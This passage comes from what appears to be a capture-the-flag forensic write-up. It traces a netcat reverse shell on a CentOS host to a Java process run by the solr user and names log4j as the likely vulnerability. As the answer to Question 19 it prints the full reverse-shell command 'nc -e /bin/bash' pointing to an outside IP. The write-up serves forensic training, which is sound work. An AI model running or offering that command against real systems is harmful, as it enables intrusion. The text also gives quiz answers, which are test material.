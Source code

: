 ![](./Screenshots/Image26.png)

We observe that netcat has a ppid of *3556* so lets change the filter a bit to *host.name: "CentOS" and process.pid: 3556* and we observe that the parent process is *Java* run by user *solr* which even corresponds with the process working directory. Seems like the attacker was able to expolit Apache Solr and obtain reverse shell back to his machine.

![](./Screenshots/Image27.png)

**Question 19**
```
If you focus on nc process, you can get the entire command that the attacker ran to get a reverse shell. Write the full command?
```

Answer is quite evident from question 18 - *nc -e /bin/bash 192.168.1.10, 9999*

**Question 20**
```
From the previous three questions, you may remember a famous java vulnerability. What is it?
```

In all it definitely hints towards log4j and looking into *process.args* wrt to the java process in *Question 18* there are hints towards the same.

![](./Screenshots/Image28.png)
